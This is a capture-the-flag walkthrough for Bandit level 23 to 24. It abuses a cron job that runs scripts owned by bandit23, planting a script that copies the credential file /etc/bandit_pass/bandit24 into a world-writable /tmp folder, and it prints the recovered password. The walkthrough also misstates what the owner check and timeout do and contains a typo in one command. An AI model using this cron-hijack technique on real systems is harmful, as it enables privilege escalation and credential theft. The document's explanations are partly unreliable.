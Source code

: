 A program is running automatically at regular intervals from **cron**, the time-based job scheduler.\
Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around.

- - -

As you `cd /etc/cron.d/` and `cat cronjob_bandit24`.\
It outputs:
```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Now go ahead and type `cat /usr/bin/cronjob_bandit24.sh`.\
This will output:
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
Let's breakdown what this script is saying:
- It says that it is `executing and deleting all scripts in /var/spool/$myname`. We assume that `myname` is **bandit24** because according to the  **cronjob_bandit24**, this script is being executed by bandit24.
- The *for loop* basically iterates through the files within this `/var/spool/bandit24` directory.
- The first *if-statement* is ignoring the directory symbol `.` and the parent directory symbol `..`
- The second *if-statement* is checking if the user you're currenlty on is bandit23.
- The `timeout` command basically executes the `./$i` file every 60 seconds.
- The `rm -f` deletes the file. 

- - -

We'll replace `$myname` as `bandit24` because the script is being executed by bandit24.\
So then we can actually manually go inside the `/var/spool/$myname` directory!\
Type:\
`cd /var/spool/bandit24`

Now that we understand the script, and since we are in the `/var/spool/bandit24` directory, we can put a file in here and have it execute every 60 seconds.  What we can do is put a script in `/var/spool/bandit24` to `cat` out the **bandit24 password** and put it into a directory we have access to.\
The directory we have access to will be the `/tmp` directory.  However, we'll have to make a folder in there first.\
So type:\
`mkdir /tmp/GETPASSWORD`

Then we have to type:\
`chmod 777 /tmp/GETPASSWORD`\
We change the permissions so that the folder is readable, writable, and executable for ALL users.  We need it so that **bandit24** can write into it. In the next following steps we write a script so what bandit24 puts the password in the `/tmp/GETPASSWORD` folder.

- - -

Now that we have our directory we can create our script in `/var/spool/bandit24`.\
Type:\
`vim /var/spool/bandit24/password.sh`\
Put this inside the password.sh file:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/GETPASSWORD/bandit24password.txt
```
As soon as you save the file, quickly type:\
`chmod +x password.sh`
So that the file can be executable.
- - -

Now that we made our script, we now wait 60 seconds and then the `bandit24password.txt` should appear in the `/tmp/GETPASSWORD` directory.  

Now type:\
`ls /tmp/GETPASSWROD`
It should have the `bandit24password.txt` file in that directory.\
Go ahead and type:\
`cat /tmp/GETPASSWORD/bandit24password.txt`

It then should output the password for level 24!\
The password for level 24:\
`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
